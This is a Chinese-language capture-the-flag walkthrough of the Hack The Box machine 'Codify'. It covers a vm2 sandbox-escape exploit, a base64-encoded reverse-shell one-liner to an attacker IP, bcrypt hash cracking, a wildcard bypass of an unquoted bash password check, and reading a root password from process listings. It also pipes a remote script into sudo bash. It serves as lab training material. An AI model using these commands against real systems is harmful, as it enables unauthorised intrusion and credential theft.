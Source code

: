 ```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


## Summary

以简单的知识点也能构建出这么巧妙的一台，非常有趣。

### Relevant Skills

- nmap
- SQLite
- shell script
- JTR


### Attack Path Overview

![attack-path](HTB-Codify.png)


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
```

## 攻击路径规划·漏洞分析

常规靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

- robots.txt：无
- 网页信息：点击 `About Us` 可得知其使用[vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16)。版本为3.9.16。
- 网页功能：一个测试Node.js代码的网页，有个Editor界面可编写代码运行测试。
- 子域枚举：无特别发现


## Initial Access

### PoC ([CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093))

根据vm2的版本号3.9.16，简单谷歌之后在github发现一个漏洞提交与PoC：<https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>  
复制其PoC代码粘贴到Editor运行后无反应，本身也不太懂Node.js，让ChatGPT解释了一下明白代码执行在 `execSync()` 处。遂将命令改为 `id` 后再次运行，成功显示结果：

![HTB-Codify-PoC](HTB-Codify-PoC.png)

接下来就简单了，使用反弹shell的命令：`echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ==" |base64 -d|bash`

成功反连：

```bash
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ pwd
/home/svc
svc@codify:~$ ls
pwned  script.sh
```

## 横向移动

可以发现该用户没有user flag。看家目录有另一个用户：joshua，估计要横向移动。

一番探索后发现一个DB文件：
```bash
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ which sqlite3
/usr/bin/sqlite3

sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### 破解密码

```bash
└─$ echo 'joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt

└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt 
 ... 
spongebob1       (joshua)     
 ...
```

`su` 或者 `ssh` 成功登陆joshua用户：

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## flag: user

```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
808c ... f408
```


## Privilege Escalation

### Internal Recon

有当前用户的凭据所以先看了眼 `sudo -l`：

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

查看这个脚本：

```bash
joshua@codify:~$ ls -aihl /opt/scripts/mysql-backup.sh
401117 -rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

是进行数据库的备份，执行时要求输入密码匹配 `$DB_PASS`，但是值得注意的是，if条件判断 `$DB_PASS == $USER_PASS` 并未用双引号包围变量。所以可以利用shell的通配符绕过认证——即可以在要求输入密码时输入“*”。

执行：

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

注意到系统提示的 `[Warning] Using a password on the command line interface can be insecure.`

那么就用pspy看看，再次运行脚本后发现这一段：

```bash
 ...
023/11/11 04:51:08 CMD: UID=0     PID=34733  | /usr/bin/echo Backing up database: sys 
2023/11/11 04:51:08 CMD: UID=0     PID=34735  | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/11 04:51:08 CMD: UID=0     PID=34734  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
 ...
```


## flag: root

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
bb7c ... dbb4
```


---

## 总结·后记

2023/11/11

似乎第一次遇到所有知识点都撞到我会的范围里的……第一次觉得这才是Easy机器啊！